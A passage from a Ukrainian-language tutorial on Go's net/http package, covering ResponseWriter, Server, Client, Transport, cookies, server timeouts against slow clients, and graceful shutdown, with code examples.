    // 2. Потім статус-код (опціонально, за замовчуванням 200)
    w.WriteHeader(http.StatusCreated) // 201
    
    // 3. Нарешті записуємо тіло
    w.Write([]byte(`{"status": "created"}`))
}

func wrongOrder(w http.ResponseWriter, r *http.Request) {
    // ❌ ПОМИЛКА: пишемо тіло першим
    w.Write([]byte("Hello"))
    
    // ❌ ЦЕ НЕ СПРАЦЮЄ: заголовки вже відправлені!
    w.Header().Set("Content-Type", "text/plain")
    
    // ❌ ЦЕ ТЕЖ НЕ СПРАЦЮЄ: статус-код вже встановлено (200)
    w.WriteHeader(http.StatusCreated)
}
```

::warning
**Чому порядок важливий:** HTTP-відповідь передається потоком: спочатку стартовий рядок зі статус-кодом, потім заголовки, потім порожній рядок, потім тіло. Після виклику `Write()` Go відправляє заголовки клієнту. Спроба змінити заголовки після цього неможлива — вони вже у мережі!
::

#### Розширені інтерфейси ResponseWriter

Go-сервер автоматично додає додаткові можливості до `ResponseWriter` через **опціональні інтерфейси** (_optional interfaces_). Ви можете перевірити їхню наявність через type assertion.

**1. `http.Flusher` — примусове відправлення даних:**

```go
type Flusher interface {
    Flush()
}
```

Використовується для Server-Sent Events (SSE) або потокового виведення:

```go
func sseHandler(w http.ResponseWriter, r *http.Request) {
    w.Header().Set("Content-Type", "text/event-stream")
    w.Header().Set("Cache-Control", "no-cache")
    w.Header().Set("Connection", "keep-alive")

    flusher, ok := w.(http.Flusher)
    if !ok {
        http.Error(w, "SSE not supported", http.StatusInternalServerError)
        return
    }

    for i := 0; i < 10; i++ {
        fmt.Fprintf(w, "data: Message %d\n\n", i)
        flusher.Flush() // Примусово відправляємо дані клієнту
        time.Sleep(1 * time.Second)
    }
}
```

**2. `http.Hijacker` — захоплення з'єднання для WebSocket:**

```go
type Hijacker interface {
    Hijack() (net.Conn, *bufio.ReadWriter, error)
}
```

Дозволяє отримати прямий доступ до TCP-сокета, щоб реалізувати власний протокол (WebSocket, custom binary protocol):

```go
func websocketHandler(w http.ResponseWriter, r *http.Request) {
    hijacker, ok := w.(http.Hijacker)
    if !ok {
        http.Error(w, "Hijacking not supported", http.StatusInternalServerError)
        return
    }

    conn, buf, err := hijacker.Hijack()
    if err != nil {
        http.Error(w, err.Error(), http.StatusInternalServerError)
        return
    }
    defer conn.Close()

    // Тепер ми маємо прямий доступ до сокета
    // Реалізуємо WebSocket handshake та протокол
    // (у реальності використовуйте gorilla/websocket)
}
```

**3. `http.Pusher` — HTTP/2 Server Push:**

```go
type Pusher interface {
    Push(target string, opts *PushOptions) error
}
```

Використовується для проактивного відправлення ресурсів (CSS, JS) до запиту:

```go
func pushHandler(w http.ResponseWriter, r *http.Request) {
    pusher, ok := w.(http.Pusher)
    if ok {
        // Проштовхуємо критичні ресурси
        if err := pusher.Push("/styles.css", nil); err != nil {
            log.Printf("Failed to push: %v", err)
        }
    }

    w.Header().Set("Content-Type", "text/html")
    fmt.Fprintf(w, `<html><head><link rel="stylesheet" href="/styles.css"></head></html>`)
}
```

**4. `http.CloseNotifier` (застарілий у Go 1.11+):**

Використовуйте замість нього `r.Context().Done()` для виявлення обриву з'єднання.

#### Хелпери для роботи з ResponseWriter

```go
// Відправка помилки із заголовком Content-Type: text/plain
func http.Error(w ResponseWriter, error string, code int)

// Редирект (встановлює Location та статус-код)
func http.Redirect(w ResponseWriter, r *Request, url string, code int)

// Відправка файлу (автоматично визначає Content-Type, підтримує Range Requests)
func http.ServeFile(w ResponseWriter, r *Request, name string)

// Відправка контенту із io.ReadSeeker (більше контролю, ніж ServeFile)
func http.ServeContent(w ResponseWriter, r *Request, name string, modtime time.Time, content io.ReadSeeker)

// Встановлення cookie
func http.SetCookie(w ResponseWriter, cookie *Cookie)

// Видалення cookie (встановлює MaxAge=-1)
func deleteCookie(w ResponseWriter, name string) {
    http.SetCookie(w, &http.Cookie{
        Name:   name,
        Value:  "",
        Path:   "/",
        MaxAge: -1,
    })
}
```

**Приклад використання хелперів:**

```go
func fileDownloadHandler(w http.ResponseWriter, r *http.Request) {
    // Перевірка автентифікації
    if !isAuthenticated(r) {
        http.Error(w, "Unauthorized", http.StatusUnauthorized)
        return
    }

    // Відправка файлу (автоматично додає Content-Disposition, Content-Length, підтримує Range Requests)
    http.ServeFile(w, r, "/var/files/document.pdf")
}

func redirectHandler(w http.ResponseWriter, r *http.Request) {
    // Перенаправлення на новий URL
    http.Redirect(w, r, "/new-location", http.StatusMovedPermanently)
}
```

### Структура `http.Server`: конфігурація сервера

`http.Server` — це центральна структура для керування HTTP-сервером. Вона дає повний контроль над поведінкою сервера.

```go
type Server struct {
    // Адреса для прослуховування, формат ":8080" або "0.0.0.0:8080"
    Addr string

    // Головний обробник (роутер)
    // Якщо nil, використовується http.DefaultServeMux
    Handler Handler

    // Таймаут читання всього запиту (заголовки + тіло)
    // За замовчуванням: необмежений (небезпечно!)
    ReadTimeout time.Duration

    // Таймаут читання заголовків (менший за ReadTimeout)
    // Дозволяє швидше відхиляти повільні клієнти
    ReadHeaderTimeout time.Duration

    // Таймаут запису відповіді
    WriteTimeout time.Duration

    // Таймаут очікування наступного запиту при keep-alive
    IdleTimeout time.Duration

    // Максимальний розмір заголовків запиту (за замовчуванням 1 MB)
    MaxHeaderBytes int

    // TLS конфігурація (для HTTPS)
    TLSConfig *tls.Config

    // Налаштування HTTP/2
    // Автоматично активується для TLS, якщо не вимкнено
    TLSNextProto map[string]func(*Server, *tls.Conn, Handler)

    // Час очікування плавного завершення
    // (не поле структури, передається в Shutdown)

    // Функція для логування помилок
    ErrorLog *log.Logger

    // Базовий контекст для всіх запитів
    BaseContext func(net.Listener) context.Context

    // Функція для налаштування контексту кожного запиту
    ConnContext func(ctx context.Context, c net.Conn) context.Context
}
```

#### Методи `http.Server`

```go
// Запуск HTTP-сервера (блокуючий виклик)
func (srv *Server) ListenAndServe() error

// Запуск HTTPS-сервера
func (srv *Server) ListenAndServeTLS(certFile, keyFile string) error

// Запуск сервера на існуючому listener
func (srv *Server) Serve(l net.Listener) error

// Плавне завершення (чекає завершення активних запитів)
func (srv *Server) Shutdown(ctx context.Context) error

// Негайне закриття (обриває активні з'єднання)
func (srv *Server) Close() error

// Реєстрація функції, яка викликається при завершенні сервера
func (srv *Server) RegisterOnShutdown(f func())
```

**Приклад повної конфігурації продакшн-сервера:**

```go
func main() {
    mux := http.NewServeMux()
    mux.HandleFunc("/", homeHandler)

    server := &http.Server{
        Addr:    ":8080",
        Handler: mux,

        // Захист від повільних клієнтів
        ReadTimeout:       10 * time.Second,
        ReadHeaderTimeout: 5 * time.Second,
        WriteTimeout:      10 * time.Second,
        IdleTimeout:       120 * time.Second,

        // Обмеження розміру заголовків (1 MB)
        MaxHeaderBytes: 1 << 20,

        // Кастомний логер помилок
        ErrorLog: log.New(os.Stderr, "HTTP ERROR: ", log.LstdFlags),

        // TLS конфігурація (для HTTPS)
        TLSConfig: &tls.Config{
            MinVersion:               tls.VersionTLS12,
            CurvePreferences:         []tls.CurveID{tls.X25519, tls.CurveP256},
            PreferServerCipherSuites: true,
            CipherSuites: []uint16{
                tls.TLS_ECDHE_ECDSA_WITH_AES_256_GCM_SHA384,
                tls.TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384,
                tls.TLS_ECDHE_ECDSA_WITH_AES_128_GCM_SHA256,
                tls.TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256,
            },
        },
    }

    // Запуск у горутині
    go func() {
        log.Println("Server starting on :8080")
        if err := server.ListenAndServe(); err != http.ErrServerClosed {
            log.Fatalf("Server failed: %v", err)
        }
    }()

    // Graceful Shutdown
    quit := make(chan os.Signal, 1)
    signal.Notify(quit, os.Interrupt, syscall.SIGTERM)
    <-quit

    ctx, cancel := context.WithTimeout(context.Background(), 30*time.Second)
    defer cancel()

    if err := server.Shutdown(ctx); err != nil {
        log.Fatalf("Shutdown failed: %v", err)
    }

    log.Println("Server stopped gracefully")
}
```

### Структура `http.Cookie`: робота з куками

```go
type Cookie struct {
    Name  string    // Ім'я cookie
    Value string    // Значення cookie

    Path       string    // URL шлях, для якого cookie валідний
    Domain     string    // Домен, для якого cookie валідний
    Expires    time.Time // Абсолютний час закінчення терміну дії
    RawExpires string    // Сирове значення Expires для читання

    MaxAge   int  // Час життя в секундах (0 = session, <0 = видалити)
    Secure   bool // Тільки HTTPS
    HttpOnly bool // Недоступний через JavaScript
    SameSite SameSite // Політика Same-Site

    Raw      string   // Сире значення cookie
    Unparsed []string // Нерозібрані атрибути
}
```

**Константи SameSite:**

```go
const (
    SameSiteDefaultMode SameSite = iota + 1 // Браузер вирішує (зазвичай Lax)
    SameSiteLaxMode                         // Відправляється при навігації верхнього рівня
    SameSiteStrictMode                      // Тільки для того самого сайту
    SameSiteNoneMode                        // Завжди відправляється (вимагає Secure)
)
```

**Створення та налаштування cookie:**

```go
func setCookieExample(w http.ResponseWriter, r *http.Request) {
    // Простий cookie
    simple := &http.Cookie{
        Name:  "theme",
        Value: "dark",
    }
    http.SetCookie(w, simple)

    // Сесійний cookie з безпекою
    session := &http.Cookie{
        Name:     "session_id",
        Value:    generateSecureToken(),
        Path:     "/",
        MaxAge:   3600,                    // 1 година
        HttpOnly: true,                    // Захист від XSS
        Secure:   true,                    // Тільки HTTPS
        SameSite: http.SameSiteStrictMode, // Захист від CSRF
    }
    http.SetCookie(w, session)

    // Cookie з доменом (доступний для піддоменів)
    tracking := &http.Cookie{
        Name:     "tracking_id",
        Value:    "abc123",
        Domain:   ".example.com", // Доступний для api.example.com, www.example.com
        Path:     "/",
        MaxAge:   86400 * 365, // 1 рік
        SameSite: http.SameSiteLaxMode,
    }
    http.SetCookie(w, tracking)

    // Cookie з абсолютним терміном дії
    expireTime := time.Now().Add(24 * time.Hour)
    expires := &http.Cookie{
        Name:    "temp_token",
        Value:   "xyz789",
        Expires: expireTime,
        Path:    "/api",
    }
    http.SetCookie(w, expires)
}
```

### Структура `http.Client`: HTTP-клієнт

`http.Client` використовується для відправки HTTP-запитів до зовнішніх серверів. Це критично важливо для інтеграції з зовнішніми API.

```go
type Client struct {
    // Транспорт для виконання HTTP-запитів
    // За замовчуванням: http.DefaultTransport
    Transport RoundTripper

    // Політика редиректів
    // nil = до 10 автоматичних редиректів
    CheckRedirect func(req *Request, via []*Request) error

    // Пул cookies (автоматичне керування)
    Jar CookieJar

    // Таймаут для всієї операції (запит + відповідь)
    // 0 = без таймауту (небезпечно!)
    Timeout time.Duration
}
```

**Глобальні клієнти:**

```go
// Клієнт за замовчуванням (без таймауту!)
var DefaultClient = &Client{}

// Рекомендований клієнт для продакшн
var productionClient = &http.Client{
    Timeout: 30 * time.Second,
    Transport: &http.Transport{
        MaxIdleConns:          100,
        MaxIdleConnsPerHost:   10,
        IdleConnTimeout:       90 * time.Second,
        TLSHandshakeTimeout:   10 * time.Second,
        ExpectContinueTimeout: 1 * time.Second,
    },
}
```

**Методи Client:**

```go
// GET-запит
func (c *Client) Get(url string) (*Response, error)

// POST-запит із даними
func (c *Client) Post(url, contentType string, body io.Reader) (*Response, error)

// POST форми
func (c *Client) PostForm(url string, data url.Values) (*Response, error)

// HEAD-запит (тільки заголовки)
func (c *Client) Head(url string) (*Response, error)

// Виконання кастомного запиту
func (c *Client) Do(req *Request) (*Response, error)
```

**Приклади використання Client:**

```go
// 1. Простий GET-запит
func simpleGet() {
    client := &http.Client{Timeout: 10 * time.Second}
    
    resp, err := client.Get("https://api.example.com/users")
    if err != nil {
        log.Fatal(err)
    }
    defer resp.Body.Close()

    if resp.StatusCode != http.StatusOK {
        log.Fatalf("Unexpected status: %d", resp.StatusCode)
    }

    body, _ := io.ReadAll(resp.Body)
    fmt.Println(string(body))
}

// 2. POST-запит із JSON
func postJSON() {
    client := &http.Client{Timeout: 10 * time.Second}

    payload := map[string]string{
        "name":  "Олена",
        "email": "olena@example.com",
    }

    jsonData, _ := json.Marshal(payload)

    resp, err := client.Post(
        "https://api.example.com/users",
        "application/json",
        bytes.NewBuffer(jsonData),
    )
    if err != nil {
        log.Fatal(err)
    }
    defer resp.Body.Close()

    fmt.Println("Status:", resp.Status)
}

// 3. Кастомний запит із заголовками
func customRequest() {
    client := &http.Client{Timeout: 10 * time.Second}

    req, _ := http.NewRequest("PUT", "https://api.example.com/users/42", nil)
    
    // Додаємо заголовки
    req.Header.Set("Authorization", "Bearer "+token)
    req.Header.Set("Content-Type", "application/json")
    req.Header.Set("User-Agent", "MyApp/1.0")

    resp, err := client.Do(req)
    if err != nil {
        log.Fatal(err)
    }
    defer resp.Body.Close()

    fmt.Println("Status:", resp.StatusCode)
}

// 4. Запит із контекстом (таймаут, скасування)
func requestWithContext() {
    client := &http.Client{}

    ctx, cancel := context.WithTimeout(context.Background(), 5*time.Second)
    defer cancel()

    req, _ := http.NewRequestWithContext(ctx, "GET", "https://slow-api.example.com", nil)

    resp, err := client.Do(req)
    if err != nil {
        if ctx.Err() == context.DeadlineExceeded {
            log.Println("Request timed out")
        }
        return
    }
    defer resp.Body.Close()
}
```

### Структура `http.Transport`: налаштування з'єднань

`Transport` керує пулом з'єднань, проксі, TLS та іншими низькорівневими деталями.

```go
type Transport struct {
    // Функція для створення нових з'єднань
    // За замовчуванням: net.Dial
    Dial func(network, addr string) (net.Conn, error)

    // Функція для створення TLS з'єднань
    DialTLS func(network, addr string) (net.Conn, error)

    // TLS конфігурація
    TLSClientConfig *tls.Config

    // Максимальна кількість idle з'єднань (всього)
    MaxIdleConns int // За замовчуванням: 100

    // Максимальна кількість idle з'єднань на хост
    MaxIdleConnsPerHost int // За замовчуванням: 2

    // Максимальна кількість з'єднань на хост (0 = необмежено)
    MaxConnsPerHost int

    // Час життя idle з'єднання
    IdleConnTimeout time.Duration // За замовчуванням: 90s

    // Таймаут TLS handshake
    TLSHandshakeTimeout time.Duration // За замовчуванням: 10s

    // Продовжувати використовувати з'єднання після Read
    DisableKeepAlives bool

    // Автоматично стискати gzip
    DisableCompression bool

    // Проксі-функція
    Proxy func(*Request) (*url.URL, error)
}
```

**Приклад налаштування Transport:**

```go
func configuredClient() *http.Client {
    transport := &http.Transport{
        // Пул з'єднань
        MaxIdleConns:        100,
        MaxIdleConnsPerHost: 10,
        MaxConnsPerHost:     50,
        IdleConnTimeout:     90 * time.Second,

        // Таймаути
        TLSHandshakeTimeout:   10 * time.Second,
        ResponseHeaderTimeout: 10 * time.Second,
        ExpectContinueTimeout: 1 * time.Second,

        // TLS конфігурація (строга безпека)
        TLSClientConfig: &tls.Config{
            MinVersion: tls.VersionTLS12,
            CipherSuites: []uint16{
                tls.TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384,
                tls.TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256,
            },
        },

        // Проксі (опціонально)
        Proxy: http.ProxyFromEnvironment, // Читає HTTP_PROXY, HTTPS_PROXY

        // Кастомний Dialer
        DialContext: (&net.Dialer{
            Timeout:   30 * time.Second,
            KeepAlive: 30 * time.Second,
        }).DialContext,
    }

    return &http.Client{
        Transport: transport,
        Timeout:   30 * time.Second,
    }
}
```

### Структура `http.Response`: відповідь від сервера

```go
type Response struct {
    Status     string // "200 OK"
    StatusCode int    // 200
    Proto      string // "HTTP/1.1"
    ProtoMajor int    // 1
    ProtoMinor int    // 1

    Header Header      // Заголовки відповіді
    Body   io.ReadCloser // Тіло (завжди закривайте!)

    ContentLength    int64  // Розмір тіла (-1 якщо chunked)
    TransferEncoding []string
    Close            bool   // Чи треба закрити з'єднання
    Uncompressed     bool   // Чи було автоматично розпаковано gzip

    // Оригінальний запит
    Request *Request

    // TLS інформація
    TLS *tls.ConnectionState
}
```

**Робота з Response:**

```go
func handleResponse(resp *http.Response) {
    defer resp.Body.Close()

    // Перевірка статус-коду
    if resp.StatusCode >= 400 {
        body, _ := io.ReadAll(resp.Body)
        log.Fatalf("Error %d: %s", resp.StatusCode, string(body))
    }

    // Читання заголовків
    contentType := resp.Header.Get("Content-Type")
    etag := resp.Header.Get("ETag")

    // Читання тіла
    if strings.Contains(contentType, "application/json") {
        var result map[string]any
        json.NewDecoder(resp.Body).Decode(&result)
        fmt.Println(result)
    } else {
        body, _ := io.ReadAll(resp.Body)
        fmt.Println(string(body))
    }

    // Інформація про з'єднання
    if resp.TLS != nil {
        fmt.Println("TLS Version:", resp.TLS.Version)
        fmt.Println("Cipher Suite:", resp.TLS.CipherSuite)
    }
}
```

### Хелпери та утилітарні функції

Пакет `net/http` надає багато зручних функцій для типових операцій.

#### Функції для створення запитів

```go
// Створення нового запиту
func NewRequest(method, url string, body io.Reader) (*Request, error)

// Створення запиту з контекстом
func NewRequestWithContext(ctx context.Context, method, url string, body io.Reader) (*Request, error)

// Читання запиту з Reader (для тестування або проксі)
func ReadRequest(b *bufio.Reader) (*Request, error)

// Читання відповіді з Reader
func ReadResponse(r *bufio.Reader, req *Request) (*Response, error)
```

**Приклад створення складних запитів:**

```go
func buildComplexRequest() *http.Request {
    // JSON payload
    payload := map[string]any{
        "name": "Тест",
        "tags": []string{"go", "http"},
    }
    jsonData, _ := json.Marshal(payload)

    // Контекст із таймаутом
    ctx, cancel := context.WithTimeout(context.Background(), 5*time.Second)
    defer cancel()

    // Створення запиту
    req, _ := http.NewRequestWithContext(
        ctx,
        http.MethodPost,
        "https://api.example.com/items",
        bytes.NewReader(jsonData),
    )

    // Встановлення заголовків
    req.Header.Set("Content-Type", "application/json")
    req.Header.Set("Authorization", "Bearer "+token)
    req.Header.Set("User-Agent", "MyApp/2.0")
    req.Header.Set("Accept", "application/json")
    req.Header.Set("Accept-Encoding", "gzip, deflate")

    // Додавання query-параметрів
    q := req.URL.Query()
    q.Add("version", "v1")
    q.Add("format", "json")
    req.URL.RawQuery = q.Encode()

    // Додавання cookies
    req.AddCookie(&http.Cookie{
        Name:  "session_id",
        Value: "abc123",
    })

    return req
}
```

#### Детектування типів контенту

```go
// Визначення MIME-типу за вмістом файлу
func DetectContentType(data []byte) string

// Приклад
func detectExample() {
    data, _ := os.ReadFile("image.png")
    
    contentType := http.DetectContentType(data)
    fmt.Println(contentType) // "image/png"
}
```

#### Парсинг медіа-типів

```go
// Розбір Content-Type заголовка
func ParseMediaType(v string) (mediatype string, params map[string]string, err error)

// Приклад
func parseExample() {
    header := "multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW"
    
    mediaType, params, _ := mime.ParseMediaType(header)
    fmt.Println("Type:", mediaType)           // multipart/form-data
    fmt.Println("Boundary:", params["boundary"]) // ----WebKitFormBoundary...
}
```

#### Константи HTTP-методів

```go
const (
    MethodGet     = "GET"
    MethodHead    = "HEAD"
    MethodPost    = "POST"
    MethodPut     = "PUT"
    MethodPatch   = "PATCH"
    MethodDelete  = "DELETE"
    MethodConnect = "CONNECT"
    MethodOptions = "OPTIONS"
    MethodTrace   = "TRACE"
)
```

**Використання:**

```go
func checkMethod(w http.ResponseWriter, r *http.Request) {
    if r.Method != http.MethodPost {
        w.Header().Set("Allow", http.MethodPost)
        http.Error(w, "Method Not Allowed", http.StatusMethodNotAllowed)
        return
    }
    // Обробка POST
}
```

#### Константи статус-кодів

```go
// Інформаційні
const (
    StatusContinue           = 100
    StatusSwitchingProtocols = 101
    StatusProcessing         = 102
)

// Успішні
const (
    StatusOK                   = 200
    StatusCreated              = 201
    StatusAccepted             = 202
    StatusNoContent            = 204
    StatusPartialContent       = 206
)

// Редиректи
const (
    StatusMovedPermanently  = 301
    StatusFound             = 302
    StatusSeeOther          = 303
    StatusNotModified       = 304
    StatusTemporaryRedirect = 307
    StatusPermanentRedirect = 308
)

// Помилки клієнта
const (
    StatusBadRequest                   = 400
    StatusUnauthorized                 = 401
    StatusForbidden                    = 403
    StatusNotFound                     = 404
    StatusMethodNotAllowed             = 405
    StatusRequestTimeout               = 408
    StatusConflict                     = 409
    StatusGone                         = 410
    StatusPreconditionFailed           = 412
    StatusRequestEntityTooLarge        = 413
    StatusUnsupportedMediaType         = 415
    StatusUnprocessableEntity          = 422
    StatusTooManyRequests              = 429
)

// Помилки сервера
const (
    StatusInternalServerError      = 500
    StatusNotImplemented           = 501
    StatusBadGateway               = 502
    StatusServiceUnavailable       = 503
    StatusGatewayTimeout           = 504
)
```

**Функція для отримання тексту статус-коду:**

```go
// Повертає стандартний текст для статус-коду
func StatusText(code int) string

// Приклад
text := http.StatusText(404) // "Not Found"
text = http.StatusText(201)  // "Created"
```

### Внутрішні механізми: як працює net/http під капотом

#### 1. Архітектура сервера (концептуальна діаграма)

```
┌─────────────────────────────────────────┐
│  http.ListenAndServe(":8080", handler)  │
└─────────────┬───────────────────────────┘
              │
              ▼
┌─────────────────────────────────────────┐
│  net.Listen("tcp", ":8080")             │
│  Створює TCP слухача                     │
└─────────────┬───────────────────────────┘
              │
              ▼
┌─────────────────────────────────────────┐
│  for { conn, _ := listener.Accept() }   │
│  Нескінченний цикл прийому з'єднань      │
└─────────────┬───────────────────────────┘
              │
              ▼
┌─────────────────────────────────────────┐
│  go c.serve(ctx)                        │
│  Нова горутина для кожного з'єднання     │
└─────────────┬───────────────────────────┘
              │
              ▼
┌─────────────────────────────────────────┐
│  for { w, req, _ := c.readRequest() }   │
│  Цикл читання запитів (keep-alive)      │
└─────────────┬───────────────────────────┘
              │
              ▼
┌─────────────────────────────────────────┐
│  serverHandler{c.server}.ServeHTTP()    │
│  Виклик вашого обробника                 │
└─────────────────────────────────────────┘
```

#### 2. Життєвий цикл запиту

```go
// Псевдокод внутрішньої реалізації
func (c *conn) serve(ctx context.Context) {
    defer func() {
        if err := recover(); err != nil {
            // Обробка panic
            c.server.logf("http: panic serving %v: %v", c.remoteAddr, err)
        }
        c.close()
    }()

    // Цикл keep-alive
    for {
        // 1. Читання запиту
        w, req, err := c.readRequest(ctx)
        if err != nil {
            return // З'єднання закрито або помилка
        }

        // 2. Встановлення таймаутів
        if c.server.ReadTimeout > 0 {
            conn.SetReadDeadline(time.Now().Add(c.server.ReadTimeout))
        }
        if c.server.WriteTimeout > 0 {
            conn.SetWriteDeadline(time.Now().Add(c.server.WriteTimeout))
        }

        // 3. Виклик обробника
        serverHandler{c.server}.ServeHTTP(w, req)

        // 4. Скидання буферів
        w.finishRequest()

        // 5. Перевірка, чи треба закрити з'єднання
        if !w.shouldReuseConnection() {
            return
        }

        // 6. Перехід у idle режим для наступного запиту
        c.setState(StateIdle)
    }
}
```

#### 3. Буферизація та пул об'єктів

Go використовує **пул об'єктів** (`sync.Pool`) для зменшення навантаження на GC:

```go
// Внутрішні пули (приблизна реалізація)
var (
    bufioReaderPool sync.Pool
    bufioWriterPool sync.Pool
    responsePool    sync.Pool
)

func getReader(r io.Reader) *bufio.Reader {
    if v := bufioReaderPool.Get(); v != nil {
        br := v.(*bufio.Reader)
        br.Reset(r)
        return br
    }
    return bufio.NewReader(r)
}

func putReader(br *bufio.Reader) {
    br.Reset(nil)
    bufioReaderPool.Put(br)
}
```

Це означає, що буфери читання/запису **переробляються** між запитами, замість створення нових.

#### 4. Як працює http.ServeMux

```go
// Спрощена реалізація ServeMux
type ServeMux struct {
    mu    sync.RWMutex
    m     map[string]muxEntry
    hosts bool // чи є хост-специфічні шаблони
}

type muxEntry struct {
    h       Handler
    pattern string
}

func (mux *ServeMux) Handle(pattern string, handler Handler) {
    mux.mu.Lock()
    defer mux.mu.Unlock()

    // Зберігаємо в карті
    mux.m[pattern] = muxEntry{h: handler, pattern: pattern}
}

func (mux *ServeMux) ServeHTTP(w ResponseWriter, r *Request) {
    // Знаходимо найдовший збіг шаблону
    h, pattern := mux.Handler(r)
    h.ServeHTTP(w, r)
}

func (mux *ServeMux) match(path string) (h Handler, pattern string) {
    // Шукаємо найдовший збіг префіксу
    var n = 0
    for k, v := range mux.m {
        if !pathMatch(k, path) {
            continue
        }
        if h == nil || len(k) > n {
            n = len(k)
            h = v.h
            pattern = v.pattern
        }
    }
    return
}
```

**Особливості маршрутизації:**

- `/images/` збігається з `/images/cat.jpg`, `/images/dog.png`
- `/images` збігається лише з точним шляхом `/images`
- Найдовший збіг має пріоритет
- Якщо збігу немає, використовується обробник `NotFoundHandler`

#### 5. Управління з'єднаннями: Keep-Alive

HTTP/1.1 за замовчуванням використовує **постійні з'єднання** (keep-alive). Go автоматично керує ними:

```go
// Внутрішня логіка
func (w *response) shouldReuseConnection() bool {
    // Перевірка умов для повторного використання
    if w.closeAfterReply {
        return false
    }
    if w.requestBodyLimitHit || w.closedRequestBodyEarly() {
        return false
    }
    if w.req.Header.Get("Connection") == "close" {
        return false
    }
    if w.req.ProtoMajor < 1 || (w.req.ProtoMajor == 1 && w.req.ProtoMinor < 1) {
        return false
    }
    return true
}
```

Якщо з'єднання може бути переробленим, воно залишається відкритим, і сервер очікує наступного запиту.

::tip
**Оптимізація:** Завдяки keep-alive, десятки запитів можуть виконуватися через одне TCP-з'єднання, економлячи час на handshake. Але це також означає, що горутина залишається активною, поки з'єднання не закриється або не досягне IdleTimeout.
::

---


---

## Створення кастомного `http.Server`: контроль над деталями

Функція `http.ListenAndServe` зручна для швидкого прототипування, але вона використовує **налаштування за замовчуванням**, які не завжди підходять для продакшн-систем. Наприклад, за замовчуванням **немає таймаутів читання та запису**, що може призвести до витоків ресурсів, коли повільний або зловмисний клієнт тримає з'єднання відкритим необмежений час (атака **Slowloris**).

Замість `http.ListenAndServe` ми можемо створити екземпляр структури `http.Server` із точними налаштуваннями:

```go
package main

import (
	"context"
	"fmt"
	"log"
	"net/http"
	"os"
	"os/signal"
	"syscall"
	"time"
)

func main() {
	mux := http.NewServeMux()
	mux.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		fmt.Fprintf(w, "Сервер працює!")
	})

	// Створюємо кастомний сервер із налаштуванням таймаутів
	server := &http.Server{
		Addr:    ":8080",
		Handler: mux,

		// Таймаут на читання заголовків та тіла запиту
		ReadTimeout: 10 * time.Second,

		// Таймаут на запис відповіді
		WriteTimeout: 10 * time.Second,

		// Максимальний час очікування наступного запиту при keep-alive з'єднанні
		IdleTimeout: 120 * time.Second,

		// Максимальний розмір заголовків запиту (за замовчуванням 1 МБ)
		MaxHeaderBytes: 1 << 20, // 1 MB
	}

	// Запускаємо сервер у окремій горутині
	go func() {
		fmt.Println("🚀 Сервер запущено на http://localhost:8080")
		if err := server.ListenAndServe(); err != nil && err != http.ErrServerClosed {
			log.Fatalf("Помилка запуску сервера: %v", err)
		}
	}()

	// Чекаємо сигнал завершення роботи (Ctrl+C)
	quit := make(chan os.Signal, 1)
	signal.Notify(quit, os.Interrupt, syscall.SIGTERM)
	<-quit

	fmt.Println("\n🛑 Отримано сигнал завершення, зупиняємо сервер...")

	// Graceful Shutdown: даємо серверу 15 секунд на завершення поточних запитів
	ctx, cancel := context.WithTimeout(context.Background(), 15*time.Second)
	defer cancel()

	if err := server.Shutdown(ctx); err != nil {
		log.Fatalf("Помилка при зупинці сервера: %v", err)
	}

	fmt.Println("✅ Сервер коректно зупинено")
}
```

### Пояснення ключових параметрів

#### `ReadTimeout`
Максимальний час, протягом якого сервер чекає на отримання повного запиту (заголовки + тіло). Якщо клієнт відправляє дані дуже повільно і перевищує цей таймаут, з'єднання буде обірвано. Це захищає від атак типу **Slowloris**, коли зловмисник відкриває тисячі з'єднань і відправляє дані по одному байту за раз, виснажуючи ресурси сервера.

#### `WriteTimeout`
Максимальний час на запис відповіді клієнту. Якщо клієнт читає дані дуже повільно (наприклад, через повільну мережу), і сервер не може відправити відповідь протягом цього часу, з'єднання закривається.

#### `IdleTimeout`
Максимальний час очікування наступного запиту при постійному з'єднанні (`Connection: keep-alive`). Якщо клієнт не відправляє новий запит протягом цього часу, з'єднання закривається. Це запобігає накопиченню неактивних з'єднань, які займають ресурси сервера.

#### `MaxHeaderBytes`
Максимальний розмір секції заголовків запиту в байтах. За замовчуванням — 1 МБ. Якщо клієнт відправляє заголовки більшого розміру (наприклад, величезний cookie), сервер відхиляє запит із статус-кодом **431 Request Header Fields Too Large**.

::warning
**Чому таймаути критичні для продакшн-систем:** У реальних умовах ваш HTTP-сервер може зіткнутися з повільними клієнтами (мобільні пристрої на 3G), обірваними з'єднаннями, зловмисними ботами. Без налаштованих таймаутів кожне таке з'єднання залишається відкритим назавжди, створюючи горутину, яка ніколи не завершиться. Через кілька годин або днів роботи ваш сервер може вичерпати пам'ять або досягти ліміту файлових дескрипторів, і він перестане приймати нові з'єднання. **Завжди налаштовуйте таймаути у продакшн-середовищі.**
::

---

## Graceful Shutdown: коректне завершення роботи сервера

Уявіть ситуацію: ви розгортаєте нову версію вашого сервера, і вам потрібно зупинити поточний процес. Якщо ви просто вбиваєте процес (наприклад, командою `kill -9`), всі **активні HTTP-запити** будуть обірвані посередині обробки: клієнт отримає помилку з'єднання, транзакція в базі даних може залишитися незавершеною, файл може бути записаний частково.

Метод `server.Shutdown(ctx)` реалізує **плавне завершення роботи** (_graceful shutdown_):
1. Сервер припиняє приймати нові вхідні з'єднання.
2. Усі вже активні з'єднання продовжують обслуговуватися до завершення поточних запитів.
3. Після завершення всіх запитів (або після закінчення таймауту контексту) сервер коректно завершує роботу.

Це дозволяє забезпечити **нульовий час простою** (_zero downtime deployment_) при розгортанні нових версій: новий екземпляр сервера запускається паралельно зі старим, балансувальник навантаження перенаправляє новий трафік на новий сервер, а старий сервер завершує обробку поточних запитів і коректно вимикається.

::plant-uml{alt="Діаграма Graceful Shutdown"}



::

---

## Обробка різних типів запитів: параметри, заголовки, форми

Розглянемо практичні приклади обробки різних типів HTTP-запитів.

### Читання параметрів URL (Query Parameters)

Query-параметри передаються в URL після символу `?`:
```
GET /api/products?category=electronics&page=2&limit=20
```

У Go вони доступні через поле `r.URL.Query()`:

```go
func productsHandler(w http.ResponseWriter, r *http.Request) {
	query := r.URL.Query()

	category := query.Get("category")          // "electronics"
